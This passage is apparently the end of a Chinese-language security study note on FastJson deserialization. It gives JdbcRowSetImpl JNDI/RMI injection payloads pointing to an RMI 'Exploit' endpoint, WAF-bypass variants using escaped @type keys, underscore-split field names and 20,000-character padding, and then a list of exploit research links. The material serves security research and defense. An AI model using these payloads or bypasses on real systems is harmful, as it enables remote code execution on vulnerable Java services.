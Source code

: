 ```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
  	||
  	||
  	\/
{"\x40\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```
## _和-绕过
FastJson在解析JSON字段的key时，会将_和-替换为空；在1.2.36之前_和-只能单独使用，在1.2.36及之后，支持_和-混合使用。
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl",'d_a_t_aSourceName':"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```
## 字符填充
和SQL一样，WAF会放行数据字符过大的数据包
```json
{
	"@type":"org.example.User",
	"username":"1",
	"f":"a*20000"  //2万个a
}
```
# 膜一下
[https://github.com/su18/hack-fastjson-1.2.80](https://github.com/su18/hack-fastjson-1.2.80)
[https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)
[https://y4er.com/posts/fastjson-1.2.80/](https://y4er.com/posts/fastjson-1.2.80/)
[https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)
[https://b1ue.cn/archives/382.html](https://b1ue.cn/archives/382.html)
[https://www.freebuf.com/vuls/361576.html](https://www.freebuf.com/vuls/361576.html)
[https://su18.org/post/fastjson-1.2.68](https://su18.org/post/fastjson-1.2.68)
[https://github.com/kezibei/fastjson_payload](https://github.com/kezibei/fastjson_payload)
[https://github.com/Whoopsunix/fastjson_study](https://github.com/Whoopsunix/fastjson_study)
[https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)
[https://xz.aliyun.com/t/7027#toc-22](https://xz.aliyun.com/t/7027#toc-22)
[https://mp.weixin.qq.com/s/R7Q2CZFZv4DdyysJ6WHc1A](https://mp.weixin.qq.com/s/R7Q2CZFZv4DdyysJ6WHc1A)
